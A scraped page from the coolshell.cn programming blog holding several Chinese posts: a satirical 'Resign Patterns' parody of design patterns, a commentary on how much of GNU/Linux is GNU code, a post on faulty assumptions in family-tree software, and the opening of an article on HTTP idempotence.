[概要](https://coolshell.cn/articles/4844.html#概要)[1. Cremational Patterns 火葬模式 | Creational patterns 创建模式](https://coolshell.cn/articles/4844.html#1_Cremational_Patterns_火葬模式_Creational_patterns_创建模式)[1.1 Abject Poverty  一贫如洗 | Abstract Factory 抽象工厂](https://coolshell.cn/articles/4844.html#11_Abject_Poverty_一贫如洗_Abstract_Factory_抽象工厂)[1.2 Blinder 眼罩模式 | Builder 建造模式](https://coolshell.cn/articles/4844.html#12_Blinder_眼罩模式_Builder_建造模式)[1.3 Fallacy Method 错误方法 | Factory method 工厂方法](https://coolshell.cn/articles/4844.html#13_Fallacy_Method_错误方法_Factory_method_工厂方法)[1.4 ProtoTry  尝试模式| Prototype 原型模式](https://coolshell.cn/articles/4844.html#14_ProtoTry_尝试模式_Prototype_原型模式)[1.5 Simpleton 傻瓜模式 | Singleton 单例模式](https://coolshell.cn/articles/4844.html#15_Simpleton_傻瓜模式_Singleton_单例模式)[2. Destructural Patterns 无结构模式 | Structural patterns  结构模式](https://coolshell.cn/articles/4844.html#2_Destructural_Patterns_无结构模式_Structural_patterns_结构模式)[2.1 Adopter 领养者模式 | Adapter 适配器模式](https://coolshell.cn/articles/4844.html#21_Adopter_领养者模式_Adapter_适配器模式)[2.2 Brig 监狱模式 | Bridge 桥接模式](https://coolshell.cn/articles/4844.html#22_Brig_监狱模式_Bridge_桥接模式)[2.3 Compromise 妥协模式 | Composite 合成模式](https://coolshell.cn/articles/4844.html#23_Compromise_妥协模式_Composite_合成模式)[2.4 Detonator 地雷模式 | Decorator 修饰模式](https://coolshell.cn/articles/4844.html#24_Detonator_地雷模式_Decorator_修饰模式)[2.5 Fromage 干酪模式 | Facade 外观模式](https://coolshell.cn/articles/4844.html#25_Fromage_干酪模式_Facade_外观模式)[2.6 Flypaper 捕蝇纸模式 | Flyweight 享元模式](https://coolshell.cn/articles/4844.html#26_Flypaper_捕蝇纸模式_Flyweight_享元模式)[2.7 ePoxy 沥清模式 | Proxy 代理模式](https://coolshell.cn/articles/4844.html#27_ePoxy_沥清模式_Proxy_代理模式)[3. Misbehavioral Patterns 行为不检模式| Behavioral Patterns 行为模式](https://coolshell.cn/articles/4844.html#3_Misbehavioral_Patterns_行为不检模式_Behavioral_Patterns_行为模式)[3.1 Chain of Possibilities 可能性链模式 | Chain of responsibility 责任链模式](https://coolshell.cn/articles/4844.html#31_Chain_of_Possibilities_可能性链模式_Chain_of_responsibility_责任链模式)[3.2 Commando 突击队模式 | Command 命令模式](https://coolshell.cn/articles/4844.html#32_Commando_突击队模式_Command_命令模式)[3.3 Intersperser 散布模式| Interpreter 解释器模式](https://coolshell.cn/articles/4844.html#33_Intersperser_散布模式_Interpreter_解释器模式)[3.4 Instigator 煽动模式| Iterator 迭代器模式](https://coolshell.cn/articles/4844.html#34_Instigator_煽动模式_Iterator_迭代器模式)[3.5 Momentum 冲击模式| Memento 备忘模式](https://coolshell.cn/articles/4844.html#35_Momentum_冲击模式_Memento_备忘模式)[3.6 Medicator 用药模式| Mediator 媒介模式](https://coolshell.cn/articles/4844.html#36_Medicator_用药模式_Mediator_媒介模式)[3.7 Absolver 免责模式| Observer 观察者模式](https://coolshell.cn/articles/4844.html#37_Absolver_免责模式_Observer_观察者模式)[3.8 Stake 利害关系模式 | State 状态模式](https://coolshell.cn/articles/4844.html#38_Stake_利害关系模式_State_状态模式)[3.9 Eulogy 颂歌模式 | Strategy策略模式](https://coolshell.cn/articles/4844.html#39_Eulogy_颂歌模式_Strategy策略模式)[3.10 Tempest Method 暴风雨模式| Template Method 模板方法](https://coolshell.cn/articles/4844.html#310_Tempest_Method_暴风雨模式_Template_Method_模板方法)[3.11 Visitor From Hell 地狱访问者模式 | Visitor 访问者模式](https://coolshell.cn/articles/4844.html#311_Visitor_From_Hell_地狱访问者模式_Visitor_访问者模式)[参考](https://coolshell.cn/articles/4844.html#参考)

#### **概要**

任何一个熟悉那本由四个人写的经典的设计模式书的朋友，应该知道那本书里的模式都是非常优雅和划时代的。然而，不幸的是，从那些老代码中无法提练出这些模式，因为，在出现这些模式前，大家都不会使用模式。因此，这项工作是从大量的代码中提练出一个模式的目录。这些模式都有充足和永恒的示例。希望你能享受阅读这些模式，但千万不要模仿并使用他们！

#### 1. Cremational Patterns 火葬模式 | Creational patterns 创建模式

下面是五个 cremational patterns.

##### **1.1 Abject Poverty  一贫如洗 | Abstract Factory 抽象工厂**

Abject Poverty 模式能让你的软件相当难测试和维护， 并且需要巨大的财政支出，预算已经完全赤字。

##### **1.2 Blinder 眼罩模式 | Builder 建造模式**

Blinder 模式是一个应急有效的解决方案，其不需要考虑需求在未来的变化。目前，我们还不太清楚我们为什么叫Blinder模式，一种说法是他们会在写代码的时候被设计人员戴上眼罩，另一种说法是他们希望在维护代码的时候挖出双眼。

##### **1.3 Fallacy Method 错误方法 | Factory method 工厂方法**

Fallacy方法主要是在于处理一些不明显的案例。代码逻辑看上去是正确的，当只要某想要去测试一下，或是某个不明显的案例发生了，那些代码中的错误也就出现了。


##### **1.4 ProtoTry  尝试模式| Prototype 原型模式**

ProtoTry 模式一个快速而肮脏的软件开发工作模型的尝试。这个模式的原意本来是想在后面有时间总结一下教训并改进或重写这些代码，但是可惜的是没有时间。所以，这些代码也就成了众所周知的 legacy code – 旧代码。

##### **1.5 Simpleton 傻瓜模式 | Singleton 单例模式**

Simpleton 模式，是把一个终极复杂的模式用于那些最最没有价值的工作上。这个模式精确地指出了人员的能力程度。

 

#### **2. Destructural Patterns 无结构模式 |** Structural patterns  结构模式

下面是七个经典的变性模式

##### **2.1 Adopter 领养者模式 | Adapter 适配器模式**

Adopter模式提供了一个给那些“孤儿函数”的家。这这些函数和整个大家族别的函数看上去一点也不一样，他们和整个家族的唯一联系就是通过我们的Adopter。

##### **2.2 Brig 监狱模式 | Bridge 桥接模式**

Brig 模式也就是那些坏代码的容器类。这就是众所周知的软件模块。

##### **2.3 Compromise 妥协模式 | Composite 合成模式**

Compromise 模式主要用来平衡软件开发的工期和质量。 使用这个模式的结果是——劣质的软件 + 延误的工期。

##### **2.4 Detonator 地雷模式 | Decorator 修饰模式**

Detonator 模式是极其普通的，在程序中放置一些不易查觉的地雷。一个常见的经典示例是只用两位数来表示年份。这个炸弹已经暴露出来了，并在那等着爆炸！（陈皓注：作者这里说的是千年虫问题，本文写在1997年）

##### **2.5 Fromage 干酪模式 | Facade 外观模式**

Fromage 模式让软件看上去满是漏洞。 Fromage 模式让我们的软件像Cheesy（芝士，也有劣质的意思）一样，有大量的奇淫巧技让你的软件没有任何一点可移值性。这个模式和奶酪一样，越是老越是香啊。

##### **2.6 Flypaper 捕蝇纸模式 | Flyweight 享元模式**

Flypaper 模式的意思是，代码是由设计的人完成，而由另一个人维护。维护着这个模式的那个写代码的人发现自己被粘住了，而且很有可能在软件失支控制前夭折。

##### **2.7 ePoxy 沥清模式 | Proxy 代理模式**

ePoxy 模式主旨把软件的模式紧密地耦合在一起。随着耦合模块的增加，我们就可以看到沾粘它们的沥清。

#### **3. Misbehavioral Patterns 行为不检模式| Behavioral Patterns 行为模式**

下面是11个行为不检点模式

##### **3.1 Chain of Possibilities 可能性链模式 | Chain of responsibility 责任链模式**

Chain of Possibilities 模式主旨是创造肥大的，拙劣文档的软件模块。没有人知道其功能有多宽泛，其可能性永无止境。也就是我们所说的——无确定性。

##### **3.2 Commando 突击队模式 | Command 命令模式**

Commando 模式主旨是用来应付工作，让事情快点完成。这个模式不管封装，只图快快把代码写完。反正不犯法。

##### **3.3 Intersperser 散布模式| Interpreter 解释器模式**

Intersperser 模式把一个功能的代码散布在系统的各个地方，其可以让功能无法被测试，修改，以及让人读懂。(陈皓注：这让我想起了以前VB，PB和Delphi的开发，功能的逻辑代码散步在各个组件的不同事件中)

##### **3.4 Instigator 煽动模式| Iterator 迭代器模式**

Instigator 模式看上去是良性的，但是其却大规模的以暴力的方式在破坏软件系统。（陈皓注：作者没有做过多的解释，不过，我想到了[Windows编程革命史](https://coolshell.cn/articles/3008.html)，应该说的就是这个吧）

##### **3.5 Momentum 冲击模式| Memento 备忘模式**

Momentum模式让软件大小，内存，CPU，和复杂度成极数级成长。（陈皓注：作者对此没做过多解释，这个特性很像Windows操作系统，每个Windows 的新版本，无论是在尺寸，内存和CPU要求上，和复杂度上都会比上一版有极数级的提高）

##### **3.6 Medicator 用药模式| Mediator 媒介模式**

Medicator 模式是一个实时的屠夫一样，其把其它的系统搞得就像被打过强力镇静剂一样没有反应。

##### **3.7 Absolver 免责模式| Observer 观察者模式**

Absolver模式表现于那些被以前员工开发的代码的问题。对于现任员工，其可以因为很多代码里历史上的问题而免除被批评，其声称其对软件中的任何问题都不负责。这也是我们从所周知的——“这不是我的代码”。（参看：[程序员的借口](https://coolshell.cn/articles/1174.html)）

##### **3.8 Stake 利害关系模式 | State 状态模式**

Stake 模式表现于那些被现已成为经理的人写的代码中的各种问题。虽然这些问题很不爽，但是经理们在这个软件里的利害关系太高了，所以，不能让任何人重写，因为这代表着我们经理的技术成就。

##### **3.9 Eulogy 颂歌模式 | Strategy策略模式**

Eulogy 模式存在于所有的项目中，也就是 Post-Mortem(事后总结分析会)。

##### **3.10 Tempest Method 暴风雨模式| Template Method 模板方法**

Tempest Method 主要用在软件快要发布的最后几天。这个模式的物征是，代码中没有注释，并有使用了好几个Detonator Pattern 地雷模式。

##### **3.11 Visitor From Hell 地狱访问者模式 | Visitor 访问者模式**

Visitor From Hell 模式一般是在运行时没有检查数组越界的一个巧合。这样一来，我们系统就可以实现Visitor From Hell 模式，因为这样可以造成重要数据的重写。

#### 参考

- [1] Gamma, E., Helm, R., Johnson, R., Vlissides, J., Design Patterns – Elements of Reusable Object-Oriented Software. Addison-Wesley, 1995.

- [2] Michael Duell is an Engineer at AG Communication Systems, where his Resign Patterns have been rejected in favor of the Gang of Four Design Patterns.

- [3] “Resign Patterns: Ailments of Unsuitable Project-Disoriented Software,” The Software Practitioner, Vol. 7, No. 3, May-June 1997, p. 14.

（全文完）

# GNU/LINUX下有多少是GNU的？

#####  [2011年06月13日 ](https://coolshell.cn/articles/4826.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [38 条评论](https://coolshell.cn/articles/4826.html#comments) 18,252 人阅读

一个葡萄牙的学生写了一篇文章 《[How much GNU is there in GNU/Linux?](http://pedrocr.net/text/how-much-gnu-in-gnu-linux)》 – GNU/Linux下有多少是GNU的。他的这篇文章主要分布了今年4月份的Ubuntu Natty的Linux分发包。其主要是用代码行来做的分析，其给了两个饼图。

第一个饼图如下，其指明了各种主流的开源项目组的分布情况。可见GNU只占了8%，当然，GNome也是GNU的，加起来也只有13%，只占整个分发包很少的比重。


第二个图，作者把GNU的部分拿了出来，再进行了分析：


在下面这个图中，我们可以看到主要是四大块——gcc, gdb, binutils 和 glibc，所以，作者说，这些东西都不是最终用户需要的，不是每一个用户都是需要搞开发的。所以，如果去除这些，再去除Gnome（这个桌面UI也不是很力），那么GNU的东西几乎没有了。


所以，作者以此来挑战Richard Stallman提到的 GNU/Linux的这个说法。好像更为好的说法应该叫——

**GNU/KDE/java/xorg/Linux**

我对这篇文章有下述一些感觉：

- 以代码行来衡量重要性，非常的不准确。比尔盖茨说过——“用代码行数来衡量编程的进度，就如同用航空器零件的重量来衡量航空飞机的制造进度一样”（参看《[最佳编程语录](https://coolshell.cn/articles/2753.html)》），所以，用这个数据来并不一定正确。如果用Linux的各种包的依赖性可能会更好一点。
- 至少我知道，离开了glibc，可能整个操作系统都会不举。Linux下，绝大多数软件都是gcc/gdb编程和调试出来的（当然，LLVM和Clang正在挑战着gcc编译器），而且大多数软件都在用着GPL的许可证（[虽然开源世界的许可证是如此的混乱](https://coolshell.cn/articles/4657.html)）
- 辩证地，我们不能否定GNU的历史价值，同时我们似乎也在看到GNU好像有点萎靡。

老实说，其实叫什么不重要，是GNU/Linux也好，是Ubuntu 也好，还是Android也好，无所谓。Linux的各种分发包中都存在着全世界黑客文化的和开源文化的结晶，每当我看到这样的分布图时（例如：[是谁写的Linux?](https://coolshell.cn/articles/1360.html)），我心中都有一种说不出来的豪情，这难道不真是一种壮举吗？（[Unix黑客文化的真正延伸](https://coolshell.cn/articles/2322.html)）。

不管这种方式的软件有没有市场，能不能得到“最终用户”的认可，但这已成为了软件开发的一种精神——那种不分彼此，相互协作的精神，不是吗？

# 软件真的好难做啊

#####  [2011年06月10日 ](https://coolshell.cn/articles/4811.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [78 条评论](https://coolshell.cn/articles/4811.html#comments) 55,593 人阅读

还记得以前本站的那一篇“[编程好难啊](https://coolshell.cn/articles/1391.html)”吗，那是一篇众程序员调侃程序新手的文章，有恶搞的成分在里面。今天要和大家说的这个事没有一些恶搞和调侃的意思，是比较严肃的话题，你一定可以从中收获一些东西。这个话题来自StackOverflow上的一个问题——[Cycle in Family Tree Software](https://stackoverflow.com/questions/6163683/cycles-in-family-tree-software)，这个程序员问了下面这个问题：

> 我是一个写家族族谱软件的程序员（我用的是C++和Qt），这个软件基本上没有什么问题，直到有一天有个用户报告了一个bug。这个问题是这样的——**我这个用户和他女儿生了两个孩子**。
>
> 于是，我程序员的一些断言和硬性条件导致程序报错，因为我的程序在处理这个关系的时候，其发现X即是Y的爸爸，又是Y的爷爷，所以只能报错。
>
> 请问，**在不需要移除我的断言和数据验证的情况下，****我怎么才能解决这个问题**？

看到这里，请重点阅读一下下面的两点：

- 如果你看到这里开始兴奋了，请你为你阴暗的心理去面壁反省10分钟，因为这是一个很技术的问题。
- 如果你开始陷入了深深的思考如何解决这个问题，那么你绝对是一个合格的程序员，因为你已陷入技术已经很深了，有点呆了。

我在前面说过，“**这个是一个严肃的话题，你可以从中收获一些东西**”，当然，我并不希望你来收获乱伦的知识和心得，酷壳是一个技术博客，应该是收获技术方面的东西。


从技术的角度上来说，这是我们经常在设计软件时犯的错误——

#### **1）作了错误的假设**（Assumption）

Assumption是软件设计的重大天敌，Assumption的动词Assume意为Ass u me – Ass you and me 。你的假设做得越多，你的设计就越不靠谱。这里的假设是——我们以为family tree是一个tree，其实并不是tree。**Assumption是魔鬼**。

还有一些经典的Assumption如下所示

- 最著名的就是那个y2k臭虫。
- 不要以为没有2月30日，在瑞典1712年有2月30日
- 一分钟有60秒？闰秒呢？
- 双胞胎的生日是同一天吗？
- 双胞胎的父亲是同一个？
- 性别只有男和女？
- 婚姻只能是异性？ 关于这一点，推荐一篇强文——[Gay marriage: the database engineering perspective](https://qntm.org/gay) (同性婚姻：数据库工程)

#### **2）没有认真分析用户案例**（Use Case）

在设计软件时，我们需要考虑各种各样的用户案例，比如如下的东西：

- 私生子的问题
- 一夫多妻或一妻多夫，同父异母，同母异父
- 就算一夫多妻制违反法律，也会有离异再婚的情况
- 同性恋的问题，虽然不能繁衍，但可以领养。
- 换妻活动
- 各种乱伦关系——这种东西那个民族都不少，尤其是古时候，比如：
  - 先后嫁了两个人其是父子关系（昭君）
  - 达尔文同学和他的表妹，爱因斯坦的二婚是和他的表姐，埃及艳后嫁了她的弟弟，……
  - 顺治同学娶了四个老婆，这四个人还是一家人：姑姑，侄女，妹妹，女儿。（[参看这里](http://blog.sina.com.cn/s/blog_5e62ac110100onwa.html)）
  - 刘邦同学的母后干出来的事，相当变态（[参看这里](http://bbs.tiexue.net/post2_5114346_1.html)）
  - 中国古代的“扒灰老” （类似于楼主那个问题的Use Case）

**不想再列下去了，人类真TMD恶心，有点要吐了**。

——————————为了缓解一下恶心的气氛，请允许我插入一个搞笑短文——————————

> 一位自杀者在他的遗书里讲述了他自杀的原因，听起来实在让人头痛。遗书这样写道：“我和一个寡妇结了婚，她有一个已成年的女儿，我父亲跟我妻子带过来的女儿结了婚。所以我父亲就成了我的女婿，女儿就成了我的后母，我管父亲叫爸爸，而我父亲也管我叫爸爸；我女儿管我叫爸爸，但我却管她叫妈妈；我还得管我妻子叫姥姥，因为她是我后母的母亲。不久我女儿，也就是我后母生了一个儿子，他是我同父异母的弟弟，他也得管我叫姥爷，因为他也是我的外孙。后来我妻子，也就是我姥姥生了一个儿子，他是我后母的弟弟，我是他的外甥，所以儿子管我叫爸爸，我管儿子叫舅舅。另外我是我妻子，也就是我姥姥的外孙，同时也是我姥姥的丈夫，所已我也是我的外祖父。又因为我妻子是我的外祖母，我的儿子，也就是我的舅舅是我的弟弟和我女儿的弟弟，所以我……我的天哪，这么复杂的关系实在让我伤透了脑筋，我只有一死才能得以解脱……”

————————————————————————插入完毕————————————————————

看完上面这个短文，不知道你是否和我一样，觉得这么一个简单的程序将是如此难做啊。**另外，我决定在下一次的面试中让应聘者来设计Family Tree的程序**。

我又说多了，现在还是让我们回到技术上来。除了上面那几个观点，我在回复中还看到了如入一些有意思的回复：

- “我的软件没有bug，是你的生活有bug”——让我想到了[程序员惯用的借口](https://coolshell.cn/articles/1174.html)
- “算法中不应该加太多的限制，限制多了反而让算法不灵活。”
- “移除断言，并不代表就不出错，对于这种rare case，我们最好给一个Warning提醒用户，让用户确认确实是这样的。”
- “关于解决这个问题，移除那个断言，如果显示上会有问题的话，那就复制一下有不同关系的人就可以了”
- “你真的应该想想你的软件的价值是什么？市场在哪里？你真的要照顾这样的用户吗？”

挺好的，相信你对软件开发又学到了一些东西。

**（转载时请勿用于商业目的，并请注明作者和出处）**

# HTTP幂等性概念和应用

#####  [2011年06月07日 ](https://coolshell.cn/articles/4787.html) [Todd](https://coolshell.cn/articles/author/todd) 评论 [37 条评论](https://coolshell.cn/articles/4787.html#comments) 39,478 人阅读

**[ 感谢 [Todd 同学](https://www.cnblogs.com/weidagang2046/)投递本文 ]**

基于HTTP协议的Web API是时下最为流行的一种分布式服务提供方式。无论是在大型互联网应用还是企业级架构中，我们都见到了越来越多的SOA或RESTful的Web API。为什么Web API如此流行呢？我认为很大程度上应归功于简单有效的HTTP协议。HTTP协议是一种分布式的面向资源的网络应用层协议，无论是服务器端提供Web服务，还是客户端消费Web服务都非常简单。再加上浏览器、Javascript、AJAX、JSON以及HTML5等技术和工具的发展，互联网应用架构设计表现出了从传统的PHP、JSP、ASP.NET等服务器端动态网页向Web API + RIA（富互联网应用）过渡的趋势。Web API专注于提供业务服务，RIA专注于用户界面和交互设计，从此两个领域的分工更加明晰。在这种趋势下，Web API设计将成为服务器端程序员的必修课。然而，正如简单的Java语言并不意味着高质量的Java程序，简单的HTTP协议也不意味着高质量的Web API。要想设计出高质量的Web API，还需要深入理解分布式系统及HTTP协议的特性。


**幂等性定义**

本文所要探讨的正是HTTP协议涉及到的一种重要性质：幂等性(Idempotence)。在HTTP/1.1规范中幂等性的定义是：

> *Methods can also have the property of “idempotence” in that (aside from error or expiration issues) the side-effects of N > 0 identical requests is the same as for a single request.*

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=371703248&amp;adf=2102495316&amp;pi=t.aa~a.425447425~i.13~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158931&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4787.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhZjSbjpR2Ky5sXguehGFIR__vJoPM4bwCD7fuRYR9uY-SCCRiE6_Q3YTmziHzoctpGc9pO&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159103948&amp;bpp=1&amp;bdt=2105&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280&amp;nras=3&amp;correlator=2605610607608&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1171532177&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1575&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=300&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074602%2C44772268%2C44785295%2C44788442%2C44789779&amp;oid=2&amp;psts=ABHeCvgfLp1ykdGpbDD9Xndkx5TF0SDL5u1pYEK34DDNHl6G0d8D5fMiXgShhTlHrQzeQ9FuvTFdL5J8JiXDnZ2EJ-lAMD8&amp;pvsid=3610621802774067&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=8DObRaw1Tk&amp;p=https%3A//coolshell.cn&amp;dtd=32" data-google-container-id="a!3" data-google-query-id="CMnSg8m99_4CFQmqvQodczoN7w" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

从定义上看，HTTP方法的幂等性是指一次和多次请求某一个资源应该具有同样的副作用。幂等性属于语义范畴，正如编译器只能帮助检查语法错误一样，HTTP规范也没有办法通过消息格式等语法手段来定义它，这可能是它不太受到重视的原因之一。但实际上，幂等性是分布式系统设计中十分重要的概念，而HTTP的分布式本质也决定了它在HTTP中具有重要地位。


**分布式事务 vs 幂等设计**

为什么需要幂等性呢？我们先从一个例子说起，假设有一个从账户取钱的远程API（可以是HTTP的，也可以不是），我们暂时用类函数的方式记为


**bool** withdraw(account_id, amount); 


<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=371703248&amp;adf=1953923051&amp;pi=t.aa~a.425447425~i.25~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158931&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4787.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhZjSbjpR2Ky5sXguehGFIR__vJoPM4bwCD7fuRYR9uY-SCCRiE6_Q3YTmziHzoctpGc9pO&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159103948&amp;bpp=1&amp;bdt=2106&amp;idt=0&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280&amp;nras=5&amp;correlator=2605610607608&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1171532177&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2220&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=300&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074602%2C44772268%2C44785295%2C44788442%2C44789779&amp;oid=2&amp;psts=ABHeCvgfLp1ykdGpbDD9Xndkx5TF0SDL5u1pYEK34DDNHl6G0d8D5fMiXgShhTlHrQzeQ9FuvTFdL5J8JiXDnZ2EJ-lAMD8&amp;pvsid=3610621802774067&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F26&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=3&amp;fsb=1&amp;xpc=2N43N286IY&amp;p=https%3A//coolshell.cn&amp;dtd=74" data-google-container-id="a!6" data-google-query-id="CICShsm99_4CFbCI6QUdueIIMg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

withdraw的语义是从account_id对应的账户中扣除amount数额的钱；如果扣除成功则返回true，账户余额减少amount；如果扣除失败则返回false，账户余额不变。值得注意的是：和本地环境相比，我们不能轻易假设分布式环境的可靠性。一种典型的情况是withdraw请求已经被服务器端正确处理，但服务器端的返回结果由于网络等原因被掉丢了，导致客户端无法得知处理结果。如果是在网页上，一些不恰当的设计可能会使用户认为上一次操作失败了，然后刷新页面，这就导致了withdraw被调用两次，账户也被多扣了一次钱。如图1所示：

[](https://images.cnblogs.com/cnblogs_com/weidagang2046/201106/201106042051027575.png)

图1

这个问题的解决方案一是采用分布式事务，通过引入支持分布式事务的中间件来保证withdraw功能的事务性。分布式事务的优点是对于调用者很简单，复杂性都交给了中间件来管理。缺点则是一方面架构太重量级，容易被绑在特定的中间件上，不利于异构系统的集成；另一方面分布式事务虽然能保证事务的ACID性质，而但却无法提供性能和可用性的保证。

另一种更轻量级的解决方案是幂等设计。上面的withdraw显然不满足幂等性，但我们可以一些技巧将它变成幂等的，比如：

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=371703248&amp;adf=1953923051&amp;pi=t.aa~a.425447425~i.35~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684158931&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4787.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhZjSbjpR2Ky5sXguehGFIR__vJoPM4bwCD7fuRYR9uY-SCCRiE6_Q3YTmziHzoctpGc9pO&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684159103948&amp;bpp=1&amp;bdt=2105&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3A